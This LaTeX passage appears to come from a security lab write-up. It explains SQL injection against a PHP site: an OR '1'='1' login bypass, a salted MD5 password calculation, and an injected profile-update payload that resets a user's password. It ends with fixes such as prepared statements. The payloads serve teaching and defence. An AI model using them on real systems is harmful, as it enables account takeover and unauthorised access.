 \documentclass[11pt,a4paper]{article}
\newcommand{\code}[1]{{\tt #1}}
\newcommand{\file}[1]{{\tt #1}}
\newcommand{\secref}[1]{(see section~\ref{#1} on page~\pageref{#1})}
\begin{document}
\begin{lstlisting}[language=SQL]
SELECT * FROM Person
WHERE Username='br0ns'
   OR '1'='1'
  AND Password='secret'
\end{lstlisting}

The \code{AND} operator has higher precedence than \code{OR}, and so the
expression takes on the form $p \lor (q \land r)$. Since we know that the user
br0ns exists (corresponding to the $p$ term) the left-hand term of the $\lor$
always yields true, and because only one term of $\lor$ need be true, so is
the statement.

Having access to br0ns' account, we can alter his password by applying the
same technique as previously discussed \secref{sec:white|sub:acquire}. We want
to change br0ns' password, but since passwords are stored as MD5 encryptions
if we want to be able to use it we will have to precalculate the supplied
value.

Since we have the salt already \secref{sec:white|sub:acquire} we can replicate
the algorithm by which the site calculates the stored passwords, which we can
then use to update his password. Let's say that we want to change the password
to ``0wn3d'', we would do as follows in any PHP file.

\begin{figure}[H]
    \begin{lstlisting}[language=PHP]
<? echo md5('0wn3d'.'beef'); ?>
    \end{lstlisting}
    \caption{Password calculation}
\end{figure}

The above produces the MD5 encrypted password
``1de6ccdf75d751e707481d390f532788''. So, now we simply update the profile by
inputting the following statement in the profile update form on the
\file{index.php} page.

\begin{figure}[H]
    \begin{lstlisting}[language=SQL]
',
Person.Profile =
(
    SELECT Tmp.Profile
    FROM (SELECT * FROM Person) AS Tmp
    WHERE Tmp.Profile = 'br0ns'
),
Password='1de6ccdf75d751e707481d390f532788
    \end{lstlisting}
    \caption{Profile update input}
\end{figure}

This effectively changes the password of br0ns' user. By precalculating the
password into a real hashed password, we can now access br0ns' user using the
login form by supplying the ``owned'' password.

\subsection{Possible fixes}
Both attacks abuses the fact that PHP doesn't care what is passed to it. There
are two possible solutions; either escape characters that can be used to
expand SQL statements in unintended ways, or use prepared SQL statements. The
first is simple and somewhat effective, but still leaves the system very
vulnerable. The latter makes sure that the SQL queries only requests the
intended statement fields, which is far more secure. Both can be employed in
this system to make it far more reliable and secure.
\end{document}
